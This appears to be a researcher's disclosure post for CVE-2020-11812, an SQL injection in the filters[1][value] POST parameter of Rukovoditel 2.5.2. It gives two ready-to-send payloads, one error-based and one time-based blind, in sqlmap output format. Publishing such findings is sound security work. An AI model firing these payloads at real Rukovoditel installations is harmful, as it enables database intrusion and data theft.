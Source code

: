 ```yaml
---
title: Rukovoditel | SQL Injection filters[1][value] (POST) | CVE-2020-11812
author: Fatih Çelik
date: 2020-01-15 11:33:00 +0800
categories: [Vulnerability Research]
tags: [vulnerability research]
math: true
mermaid: true
---
```


**Vendor**: [https://sourceforge.net/projects/rukovoditel/](https://sourceforge.net/projects/rukovoditel/)

**Version**: 2.5.2

**Vulnerability**: SQL Injection

**CVE**: CVE-2020-11812

**CVSS 3.x Base Score**: **[9.8 CRITICAL](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?name=CVE-2020-11812&vector=AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H&version=3.1&source=NIST)**

Rukovoditel is a free web-based open-source project management application. A far cry from traditional applications, Rukovoditel gives users a broader and extensive approach to project management. Its customization options allow users to create additional entities, modify and specify the relationship between them, and generate the necessary reports. The platform enables users to craft their own application that is specifically tailored for their activity (CRM, ERP, HRM, WMS, etc.).

Rukovoditel Version 2.5.2 is affected by SQL injection vulnerability because of improper handling of filters[1][value] parameter.

Payloads,

```
Parameter: filters[1][value] (POST)
    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: page=1&filters[0][name]=type&filters[0][value]=0&filters[1][name]=users_id&filters[1][value]=1' AND (SELECT 6543 FROM(SELECT COUNT(*),CONCAT(0x716b706a71,(SELECT (ELT(6543=6543,1))),0x7162787871,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- ApLW

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)

    Payload: page=1&filters[0][name]=type&filters[0][value]=0&filters[1][name]=users_id&filters[1][value]=1' AND (SELECT 1479 FROM (SELECT(SLEEP(5)))WpOr)-- kARm
```

![](/photos/rukosqli-6.png)
